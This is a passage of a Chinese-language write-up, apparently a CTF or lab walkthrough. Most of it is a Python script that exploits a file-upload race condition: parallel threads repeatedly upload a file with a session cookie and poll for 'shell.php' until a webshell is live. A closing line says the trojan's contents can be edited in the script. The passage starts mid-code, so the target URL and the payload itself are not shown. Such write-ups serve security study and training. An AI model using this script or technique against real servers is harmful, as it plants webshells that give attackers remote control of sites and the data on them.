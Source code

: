 ```python
    'PHPSESSID': sessionid
}

# 上传文件函数
def upload_file():
    while True:
        response = requests.post(url, data=data, files=file, cookies=cookies)
        time.sleep(1)  # 为了避免发送请求过快，可以适当增加间隔时间

# 检查文件是否已创建
def check_file():
    while True:
        r = requests.get(url + 'shell.php')
        if r.status_code == 200:
            print('Webshell created successfully')
            print(r.text)
            break
        else:
            print('error：', r.status_code)
        # time.sleep(1)  # 为了避免发送请求过快，可以适当增加间隔时间

# 创建并启动线程
threads = []
for _ in range(5):  # 创建5个上传线程
    t = threading.Thread(target=upload_file)
    t.start()
    threads.append(t)

for _ in range(5):  # 创建5个检查线程
    t = threading.Thread(target=check_file)
    t.start()
    threads.append(t)

# 等待所有线程完成
for t in threads:
    t.join()

```
脚本跑完就写入shell.php了，木马内容可以在脚本里修改
![shell](/medias/show-upload/19.png)
